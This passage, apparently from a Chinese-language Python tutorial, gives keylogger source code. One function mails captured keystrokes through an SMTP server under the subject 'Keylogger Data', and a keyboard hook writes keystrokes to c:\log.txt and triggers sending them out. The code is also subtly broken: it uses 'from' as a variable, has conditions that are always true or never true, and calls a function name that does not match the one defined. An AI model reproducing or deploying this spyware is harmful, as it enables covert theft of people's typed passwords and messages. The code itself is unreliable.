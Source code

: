 然后我们可以定义通过连接到我们的 SMTP 服务器发送电子邮件的方法：

```py
def sendEmail(data,to): 
    try: 
        # Provide from email address 
        from = 'you@yourdomain.com' 
        # Your SMTP username 
        username = 'keylogger' 
        # Your Email password 
        password = 'asd123' 
        # Use MIMEText to create an email 
        mail = MIMEText(data, 'html') 
        mail['Subject']  = "Keylogger Data --" +str(datetime.datetime.now()) 
        mail['From']=from 
        mail['To'] = to 

        # Send the message via your SMTP server 
        server = smtplib.SMTP('smtp.yourdomain.com:587') 
        # Enable TLS if required 
        server.starttls() 
        server.login(username,password) 
        server.sendmail(from, [to], mail.as_string()) 
        server.quit() 
    except: 
        pass

```

现在我们可以将数据和地址传递给这个方法。这将把按键发送到指定的地址。现在我们可以重写`OnKeyboardEvent`方法来发送按键：

```py
def OnKeyboardEvent(event): 
    # Write character only if its not a null or backspace  
    if event.Ascii !=0 or 8: 
        # Open log file and read the current keystrokes in log file 
        f=open('c:\log.txt','r+') 
        buffer=f.read() 
        f.close()  

        if len(buffer)%100==0 and len(buffer)%100!=0: 
            #send last 1000 characters to the email 
            send_email(buffer[-1000:].replace("\n","<br>"),email) 

        # Open the log.txt file to update new keystrokes 
        f=open('c:\log.txt','w') 
        keylogs=chr(event.Ascii) 

        # if the key pressed is ENTER, update with /n  
        if event.Ascii==13: 
            keylogs='\n' 

        #if the key pressed is space, update with space  
        if event.Ascii==32: 
            keylogs='  ' 

        # Add new keystrokes to buffer 
        buffer+=keylogs 

        # Write the buffer to log file 
        f.write(buffer) 
        # close the log file 
        f.close() 

```
